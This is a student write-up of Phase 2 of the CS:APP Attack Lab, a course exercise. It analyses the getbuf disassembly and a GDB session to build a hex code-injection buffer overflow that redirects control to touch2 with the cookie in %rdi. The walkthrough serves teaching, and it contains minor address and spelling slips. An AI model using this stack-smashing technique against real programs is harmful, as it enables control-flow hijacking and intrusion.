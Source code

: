 # Phase 2

## Attack Lab Spec

Phase 2 involves injecting a small amount of code as part of your exploit string.
Within the file `ctarget` there is code for a function `touch2` having the following C representation:  
```
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol \*/
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2); 
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}                                                      
```
Your task is to get `CTARGET` to execute the code for `touch2` rather than returning to `test`. In this case,
however, you must make it appear to `touch2` as if you have passed your cookie as its argument.  

**Some Advice:**  
• You will want to position a byte representation of the address of your injected code in such a way that `ret` instruction at the end of the code for `getbuf` will transfer control to it.  
• Recall that the first argument to a function is passed in register `%rdi`.  
• Your injected code should set the register to your cookie, and then use a `ret` instruction to transfer control to the first instruction in `touch2`.  
• Do not attempt to use `jmp` or `call` instructions in your exploit code. The encodings of destination addresses for these instructions are difficult to formulate. Use `ret` instructions for all transfers of 
control, even when you are not returning from a call.

Among other things the following image was provided. It is also useful to note that c3 is the hex encoding for the ret instrucition.
![image](https://github.com/Motik7/AttackLab-Writeup/assets/60900283/5eb247a9-f732-44bc-9ae4-75f597f749e4)

## Analysis

It's clear that we need to get to `touch2` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
```
00000000004017be <getbuf>:                        
4017be:	48 83 ec 18          	sub    $0x18,%rsp     
4017c2:	48 89 e7             	mov    %rsp,%rdi      
4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>  
4017ca:	b8 01 00 00 00       	mov    $0x1,%eax      
4017cf:	48 83 c4 18          	add    $0x18,%rsp     
4017d3:	c3                   	retq                
```

Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into rdi. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This pens up the opportunity for code injection. For phase 2, this is putting our cookie into `%rdi` then calling `touch2`. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch2` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch2` we see  
`0000000000401800 <touch2>`  
which tells us that our `touch2` function is at address 0x401800. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

However, before we can enter `touch2` we first must put our cookie into register `%rdi`. To do this, we'll have to take our return address into some code that we'll write to put the cookie into `%rdi`. We can accomplish this by writing code within the 0x18 initial string bytes, and then returning within it which will begin running the code. However, we need to know where that is. To accomplish that goal, we'll use GDB on ctarget. 

### GDB Analysis

#### Finding `%rsp`

Before that, we need to know where to set certain breakpoints to be able to inspect our code well. A valuable place to put the breakpoint would be `getbuf` since ultimately it is where we do our injection, and will show us where the stack pointer `%rsp` is at any moment we choose to see. GDB allows us to simply put breakpoints at functions using `b <function_name>` so using `b getbuf` will put a breakpoint at the right spot. We then run with `r` and for now we won't include any argument. We hit the breakpoint and use `i r` to show information regarding the registers. We see that  
`rsp            0x556424c0          0x556424c0`  
which gives us a good idea of where `%rsp` is, however it's not the one that we want. At this point, we haven't decremented the stack, and while we could manually deduct 0x18 from the value we see, it's easier to run `si` and let the code do it for us. Thus, we see  
`rsp            0x556424a8          0x556424a8`  
From this, we now know where our string starts, and where we could potentially inject code. We have confirmation this does not change between runs, so we can safely continuously use this.

## Solution

Now that we have all of the information we need, we can put it all together. The plan of attack is to inject two pieces of code, a `pop rdi` and a `ret`. Referring to the info provded above, these are `5f` and `c3` respectively. We still need to pad out the rest of the 0x18 so we are now at  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`  
Now we need to go to our injected code. From our GDB analysis, we see that the string starts at 0x556425a8. Therefore we add this in overwriting the return address of `getbuf`. Using little endian notation as is required, this yields  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55`  
However, we are still not done. Consider that `pop rdi` pops whatever `%rsp` points to and puts it into `%rdi`. The `retq` in `getbuf` will move `%rsp` past the return address we injected. We therefore need to append what we want in `%rdi` after our return address. We look in cookie.txt to see that our cookie is 0x32bf3fc2. Therefore, following little endian protocol we append it to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 c2 3f bf 32`  
This will not work. The reason for this is that ret reads 8 bytes and we have only provided 4. This will not work as intended, so we pad it out to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 c2 3f bf 32`  
Now we have our cookie in `%rdi`, and we need to `ret` into `touch2`. `c3` will accomplish this, but once again we need to put the return address into our stack. Putting it all together, we get a final solution of  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 c2 3f bf 32 00 00 00 00 00 18 40 00`
